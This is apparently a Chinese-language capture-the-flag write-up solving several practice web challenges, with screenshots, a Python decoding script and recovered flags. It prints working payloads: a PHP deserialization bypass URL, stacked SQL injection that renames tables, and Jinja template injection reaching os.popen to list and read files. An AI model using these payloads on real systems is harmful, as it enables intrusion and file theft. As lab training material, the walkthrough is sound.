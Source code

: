 # Web_php_unserialize

![输入图片说明](image/e4375c3ff6eb4e8198e8de9de847f53f.png)

当通过_GET['var']传入序列化数据时，会调用unserialize，触发魔术方法__wakeup和 __destruct。
__destruct方法使用highlight_file(this->file)输出文件内容，若file可控，可读取任意文件。
__wakeup 防御：若file不为index.php，会被重置为index.php。可通过属性个数溢出绕过（序列化时声明的属性个数大于实际个数，__wakeup不会执行）。
正则检测：preg_match('/[oc]:\d+:/i', var)禁止包含o:或c:开头的序列化字符串。可利用NULL 字节截断让正则匹配失败（PHP 中preg_match遇到 NULL 字节会提前终止匹配）。

构造：/index.php?var=?TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

![输入图片说明](image/27c8d76911c54316a110f353f206d56d.png)

# supersqli

![输入图片说明](image/118110e2f28744de8c9b919eeca0d16e.png)

看一下会输出什么

![输入图片说明](image/141e99134b8b430fa6911f8dd1cb02fb.png)

’1会报错

![输入图片说明](image/c55eed2a847c4d45aab5434f1aebf674.png)

1';show databases -- #

![输入图片说明](image/3f7621ce7e9743049a8b214e42a5bfdf.png)

1';show tables -- #

![输入图片说明](image/a8356bff39624c8d844fd4859ed8e1a1.png)

1';show columns from `1919810931114514` -- #

![输入图片说明](image/cec7d33363ba49e98921a436cf479600.png)

1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);-- #
1' or 1=1 #

![输入图片说明](image/54aae3c00e484f55bf760a606699d608.png)

# inget

![输入图片说明](image/c9e546d43c514edcb2729d03a6c9dac6.png)

?id=1' or 1=1 -- #

![输入图片说明](image/73b03e8937a34570a8e297040ae48adb.png)

# web2

![输入图片说明](image/a7e3bb1363794de48c9569e00ffed85a.png)

对密文进行 str_rot13 还原：由于 str_rot13 是双向变换，再次应用即可还原。
反转字符串：逆转加密时最后一步的 strrev。
Base64 解码：解开加密时的 base64_encode。
字符 ord 减 1：逆转加密时每个字符 ord+1 的操作。
再次反转字符串：逆转加密时第一步的 strrev。

```csharp
import base64
def python_decode(string):
    zimu = "abcdefghijklmnopqrstuvwxyz" 
    rot_13 ="" 
    for i in string: 
        if i.isdigit():
            rot_13 += i
        else:
            try:
                rot_13 += zimu[zimu.index(i)-13] 
            except:
                rot_13 += zimu[zimu.index(i.lower())-13].upper()
    fz = rot_13[::-1]
    base = base64.b64decode(fz)
    base = [chr(ord(i)-1) for i in base]
    fz = base[::-1]
    print "".join(fz)

python_decode("a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws")
```

结果：flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}

# Web_python_template_injection

![输入图片说明](image/fda8c4dd860945379ec92c9ee205445b.png)

输入/{{7+7}}，测试存在模板注入

![输入图片说明](image/d0fe1f63d93645ff9b9a473fc5383280.png)

/{{''.__class__}}

![输入图片说明](image/3ab58f114dff42e89d5789d85591caa9.png)

/{{''.__class__.__mro__}}

![输入图片说明](image/801ae0c58ffe403ab69aeaa16d4ff1f5.png)

/{{''.__class__.__base__.__base__.__subclasses__()}}

![输入图片说明](image/0c3814abd08143daa400958d7a852abe.png)

/{{''.__class__.__base__.__base__.__subclasses__()[168]}}

![输入图片说明](image/6a72380a709a4197b05847d788aeed93.png)

/{{''.__class__.__base__.__base__.__subclasses__()[145].__init__.__globals__.__builtins__['eval']('__import__("os").popen("ls").read()')}}

![输入图片说明](image/d964de1a14b5400bad12ac19d2ac874f.png)

/{{''.__class__.__base__.__base__.__subclasses__()[145].__init__.__globals__.__builtins__['eval']('__import__("os").popen("cat fl4g").read()')}}

![输入图片说明](image/fd402ab27ba64cd2a602560a91724ee0.png)
